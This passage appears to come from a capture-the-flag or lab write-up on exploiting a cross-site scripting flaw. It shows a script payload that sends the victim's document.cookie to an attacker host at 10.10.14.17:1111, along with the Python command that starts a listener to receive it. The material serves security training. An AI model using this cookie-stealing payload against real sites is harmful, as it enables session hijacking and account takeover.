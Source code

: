 Basically, this is the flow. Now, let's execute it!

I used a basic payload since there is no need to bypass anything:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Don't forget to start the web server:

```sh
python3 -m http.server 1111
```

![](/assets/images/Pasted%20image%2020250203043104.png)
